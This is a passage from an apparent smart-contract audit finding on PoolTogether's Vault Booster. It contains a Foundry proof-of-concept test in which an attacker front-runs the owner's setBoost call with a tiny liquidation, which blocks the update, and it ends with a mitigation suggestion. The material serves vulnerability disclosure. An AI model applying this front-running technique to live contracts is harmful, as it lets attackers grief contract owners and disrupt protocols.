 ```solidity
    //Setting up the Booster to allow liquidation for Boost Token
    booster.setBoost(boostToken, address(liquidationPair), UD2x18.wrap(0.001e18), 0.03e18, 1e18);

    //Ensuring VaultBooster is properly configured
    Boost memory boost = booster.getBoost(boostToken);
    assertEq(boost.available, 1e18);

    vm.warp(10);

    //Now the Vault Booster's owner decides to update the boost values by calling `setBoost`
    //But attacker front-runs it by doing the following two steps in a single transaction

    //1. Attacker sends 100 wei Prize Tokens to Prize Pool
    prizeToken.mint(address(prizePool), 100);
    //2. Attacker calls the liquidation Pair to liquidate 100 wei of Boost Tokens for 100 wei of Prize Tokens in Vault Booster
    vm.prank(address(liquidationPair));
    booster.liquidate(address(this), address(prizeToken), 100, address(boostToken), 100);

    //The transcation to update the boost will revert as `_initialAvailable < balance` due to liquidation of tokens
    vm.expectRevert();
    booster.setBoost(boostToken, address(liquidationPair), UD2x18.wrap(0.002e18), 0.03e18, 1e18);
  }
}
```
- Run the following command in `/2023-08-pooltogether/pt-v5-vault-boost/`:
```bash
forge test --mc "PoC" -vvvv
```
## Tools Used
Manual Review

## Recommended Mitigation Steps
- Add a pausing functionality on liquidation to allow Vault Booster's owners to update the boost values.


## Assessed type

Other
